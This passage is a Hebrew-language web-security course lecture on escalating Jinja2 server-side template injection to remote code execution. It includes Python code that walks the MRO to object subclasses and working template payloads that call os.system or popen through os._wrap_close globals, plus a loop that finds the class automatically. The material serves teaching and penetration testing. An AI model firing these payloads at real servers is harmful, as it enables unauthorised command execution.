

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/7 - תקיפות צד שרת מתקדמות/7.6 - SSTI ל-RCE/7.6 - SSTI ל-RCE - הרצאה/index.html · generator: mkdocs

# SSTI ל-RCE - Server-Side Template Injection to Remote Code Execution

## מבוא

בקורס הבסיסי למדנו לזהות SSTI ולהריץ ביטויים פשוטים. בשיעור זה נלמד כיצד לנצל SSTI להרצת קוד מלאה (RCE) במנועי template שונים, כולל bypass sandbox ובניית שרשראות exploit מותאמות.

## Jinja2 - בריחה מ-Sandbox

### הבנת MRO - Method Resolution Order

ב-Python, כל אובייקט יורש מ-`object`. דרך MRO ניתן לנווט מכל אובייקט לכל מחלקה אחרת במערכת:

```python
# empty string -> the str class -> object -> any other class
''.__class__              # <class 'str'>
''.__class__.__mro__      # (<class 'str'>, <class 'object'>)
''.__class__.__mro__[1]   # <class 'object'>

# from object, you can reach all subclasses
''.__class__.__mro__[1].__subclasses__()
# returns a list of hundreds of classes!
```

### חיפוש מחלקות שימושיות

```python
# Script to find interesting classes
subclasses = ''.__class__.__mro__[1].__subclasses__()
for i, cls in enumerate(subclasses):
    cls_name = cls.__name__
    if cls_name in ['_wrap_close', 'Popen', 'catch_warnings', 'FileLoader']:
        print(f"[{i}] {cls_name} - {cls}")
```

מחלקות מעניינות:
- `os._wrap_close` - גישה ל-`os.system`
- `subprocess.Popen` - הרצת פקודות
- `warnings.catch_warnings` - גישה ל-`builtins`
- `importlib._bootstrap.FileLoader` - טעינת מודולים

### שרשרת exploit בסיסית

```jinja2
{# find os._wrap_close (assume it's at index 132) #}
{{ ''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['system']('id') }}

{# or via popen #}
{{ ''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['popen']('id').read() }}
```

![איור המתאר בריחה מ-Sandbox ב-Jinja2 שבה ממחרוזת ריקה מטפסים דרך המחלקה str אל object ומשם לרשימת כל המחלקות ועד למחלקה שנותנת גישה ל-os.system](../../../images/illustrations/webadv-7-6-jinja2-mro-chain.svg)

### אוטומציה של מציאת האינדקס

```jinja2
{# script that searches for os._wrap_close #}
{% for cls in ''.__class__.__mro__[1].__subclasses__() %}
  {% if cls.__name__ == '_wrap_close' %}
    {{ cls.__init__.__globals__['popen']('id').read() }}
  {% endif %}
{% endfor %}
```
